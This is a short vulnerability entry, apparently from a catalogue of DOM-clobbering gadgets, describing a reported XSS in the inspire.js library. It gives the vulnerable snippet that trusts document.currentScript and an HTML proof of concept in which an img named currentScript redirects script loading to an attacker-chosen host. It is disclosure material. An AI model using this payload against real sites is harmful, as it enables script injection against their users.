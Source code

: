 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7K
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://inspirejs.org/inspire.js

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```html
<!--Library-->
<script src="https://inspirejs.org/inspire.js"></script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999">
<!--Payload-->
```
